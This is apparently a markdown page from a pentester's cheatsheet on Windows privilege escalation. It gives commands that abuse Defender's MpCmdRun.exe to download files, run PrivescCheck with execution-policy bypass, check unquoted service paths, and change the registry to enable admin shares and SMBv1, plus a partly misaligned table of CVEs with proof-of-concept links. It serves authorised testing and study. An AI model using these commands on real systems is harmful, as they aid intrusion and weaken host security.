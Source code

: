 ```yaml
---
layout: post
title: privesc / win
category: 02-privesc
parent: cheatsheets
modified_date: 2024-12-04
permalink: /privesc/win
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [download](#download)
* [escalation](#escalation)
* [tamper](#tamper)
	* [enable-shares](#enable-shares)
	* [enable-smb1](#enable-smb1)
* [xsploit](#xsploit)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

**Tools**

* [PrivescCheck](https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1)

![fancy_mindmaps_win_creds](/assets/images/win_22_privesc.jpg)

## <a name='download'></a>download
* [/sys/powershell#transfer-http](/sys/powershell/transfer-http)
* [/dev/snippet#python-dl](/dev/snippet#python-dl)
* [juggernaut-sec](https://juggernaut-sec.com/windows-file-transfers-for-hackers/)
```sh
# download
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path>
```

## <a name='escalation'></a>escalation

* [hacktricks.xyz](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
* [payloadallthethings]()

```sh
# download privescCheck.ps1
wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1

# extended execution + txt report
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"

# unquoted service path
accesschk /accepteula -uwdq "C:\Program Files\Unquoted Service Path"
accesschk /accepteula -uwdq "C:\Program Files (x86)\Windows Identity Foundation\v3.5\"
```


## <a name='tamper'></a>tamper

### <a name='enable-shares'></a>enable-shares
```powershell
# win10 tampering: PS allow administrative shares
Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -Value 1 
```

### <a name='enable-smb1'></a>enable-smb1
```powershell
# win10 tampering: PS enable SMB v1
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" SMB1 -Type DWORD -Value 1 –Force
```

## <a name='xsploit'></a>xsploit

<table class="sortable">
<col width="20%">
<col width="80%">
<thead>
<tr>
<th>Reference</th>
<th>OS</th>
<th>Service</th>
<th>PoC</th>
</tr>
</thead>
<tbody>
<tr>
	<td>CVE-2023-21768</td> 
	<td>Windows</td>
	<td>11 22H2</td>
	<td><ul>
	<li>CODENAME: LPE_AFD</li>
	POC: <a href="https://github.com/chompie1337/Windows_LPE_AFD_CVE-2023-21768"></a>
	<li>TEST: <a href=""></a></li>
	</ul></td>
</tr>
<tr>
	<td>CVE-2022-21882</td> 
	<td>Windows</td>
	<td>10 21H2 19044.1415</td>
	<td><ul>
	<li>CODENAME: win32k.sys</li>
	<li>POC: <a href="https://github.com/gdabah/win32k-bugs"></a></li>
	<li>TEST: <a href=""></a></li>
	</ul></td>
</tr>
<tr>
	<td>CVE-2021-1675</td> 
	<td>Windows</td>
	<td>PrintSpooler</td>
	<td><ul>
	<li>CODENAME: PrintNightMare</li>
	<li>POC: <a href="https://github.com/calebstewart/CVE-2021-1675"></a></li>
	<li>TEST: <a href="https://tryhackme.com/room/atlas"></a></li>
	</ul></td>
</tr>
<tr>
	<td>CVE-2021-22204</td>
	<td>LPE</td>
	<td>Linux</td>
	<td>Exiftool</td>
</tr>
<tr>
	<td>CVE-2021-3560</td>
	<td>Linux</td>
	<td>polkit</td>
	<td></td>
</tr>
<tr>
	<td>CVE-2021-3156</td>
	<td>Linux</td>
	<td>sudo</td>
	<td>CODENAME: Baron Samedit</td>
</tr>
<tr>
	<td>CVE-2020-0601</td>
	<td>Windows</td>
	<td>CryptoAPI</td>
	<td>CODENAME: CurveBall</td>
</tr>
<tr>
	<td>CVE-2020-16898</td>
	<td></td>
	<td>Windows</td>
	<td>cODENAME: Bad Neighor</td>
</tr>
<tr>
	<td>CVE-2020-11651</td>
	<td>SaltStack</td>
	<td></td>
    <td></td>
</tr>
<tr>
	<td>CVE-2020-1350</td>
	<td>Windows</td>
	<td>DNS</td>
	<td>CODENAME: SIGRed</td>
</tr>

</tbody>

</table>
<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
